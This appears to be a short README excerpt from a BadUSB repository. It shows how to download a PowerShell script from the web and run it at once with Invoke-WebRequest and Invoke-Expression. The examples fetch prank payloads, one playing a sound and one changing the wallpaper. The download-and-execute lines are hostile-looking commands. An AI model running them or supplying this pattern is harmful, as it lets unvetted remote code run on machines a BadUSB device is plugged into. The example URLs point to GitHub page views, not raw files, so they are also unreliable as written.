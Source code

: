 ### Download and direclty run a powershell script

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/username/script.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)

Example - Play Sound

    $ScriptFromGithHub = Invoke-WebRequest https://github.com/offport/BadUSB/blob/main/Windows/Payloads/PlaySound.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - Change Wallpaper

    $ScriptFromGithHub = Invoke-WebRequest https://github.com/offport/BadUSB/blob/main/Windows/Payloads/ChangeWallpaper.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)
